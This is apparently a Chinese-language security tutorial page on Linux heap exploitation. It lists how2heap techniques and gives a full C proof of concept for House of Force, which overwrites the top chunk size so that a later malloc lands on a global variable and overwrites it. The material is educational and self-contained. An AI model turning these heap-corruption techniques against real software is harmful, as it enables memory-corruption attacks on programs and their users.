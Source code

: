 # 3.1.8 Linux 堆利用（下）

- [how2heap](#how2heap)
  - [house_of_force](#house_of_force)
  - [unsorted_bin_into_stack](#unsorted_bin_into_stack)
  - [unsorted_bin_attack](#unsorted_bin_attack)
  - [house_of_einherjar](#house_of_einherjar)
  - [house_of_orange](#house_of_orange)
- [参考资料](#参考资料)

[下载文件](../src/Others/3.1.6_heap_exploit)

## how2heap

### house_of_force

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main() {
    fprintf(stderr, "We will overwrite a variable at %p\n\n", bss_var);

    intptr_t *p1 = malloc(0x10);
    int real_size = malloc_usable_size(p1);
    memset(p1, 'A', real_size);
    fprintf(stderr, "Let's allocate the first chunk of 0x10 bytes: %p.\n", p1);
    fprintf(stderr, "Real size of our allocated chunk is 0x%x.\n\n", real_size);

    intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size);
    fprintf(stderr, "Overwriting the top chunk size with a big value so the malloc will never call mmap.\n");
    fprintf(stderr, "Old size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));
    ptr_top[0] = -1;
    fprintf(stderr, "New size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));

    unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*2 - (unsigned long)ptr_top;
    fprintf(stderr, "\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size, we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
    void *new_ptr = malloc(evil_size);
    int real_size_new = malloc_usable_size(new_ptr);
    memset((char *)new_ptr + real_size_new - 0x20, 'A', 0x20);
    fprintf(stderr, "As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr);

    void* ctr_chunk = malloc(0x30);
    fprintf(stderr, "malloc(0x30) => %p!\n", ctr_chunk);
    fprintf(stderr, "\nNow, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.\n");

    fprintf(stderr, "old string: %s\n", bss_var);
    strcpy(ctr_chunk, "YEAH!!!");
    fprintf(stderr, "new string: %s\n", bss_var);
}
```
